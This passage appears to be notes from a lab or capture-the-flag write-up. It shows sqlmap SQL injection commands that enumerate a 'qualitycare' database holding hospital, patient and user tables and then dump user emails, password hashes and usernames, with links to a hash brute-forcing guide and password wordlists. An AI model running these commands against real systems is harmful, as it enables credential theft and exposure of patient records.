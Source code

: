<https://www.percona.com/blog/2020/06/12/brute-force-mysql-password-from-a-hash/>

<https://github.com/kkrypt0nn/wordlists>

<https://github.com/danielmiessler/SecLists/tree/master/Passwords>

---

checking other databases and their tables

```bash
sqlmap -u ${URL} --batch -D qualitycare --tables

Database: qualitycare
[3 tables]
+-----------+
| hospitals |
| patients  |
| users     |
+-----------+
```

checking which columns we have in this specific table in this specific database

```bash
sqlmap -u ${URL} --batch -D qualitycare -T users --columns

Database: qualitycare
Table: users
[5 columns]
+-------------+--------------+
| Column      | Type         |
+-------------+--------------+
| email       | varchar(75)  |
| hospital_id | int(11)      |
| id          | int(11)      |
| password    | varchar(255) |
| username    | varchar(75)  |
+-------------+--------------+
```

dump the selected values

`sqlmap -u ${URL} --batch -D qualitycare -T users -C email,hospital_id,id,password,username --dump`

```bash
Database: qualitycare
Table: users
[21 entries]
+-------------------------------------------+-------------+----+-----------------------+-------------------+
| email                                     | hospital_id | id | password              | username          |
+-------------------------------------------+-------------+----+-----------------------+-------------------+
(....)
(....)
(....)
+-------------------------------------------+-------------+----+-----------------------+-------------------+
```
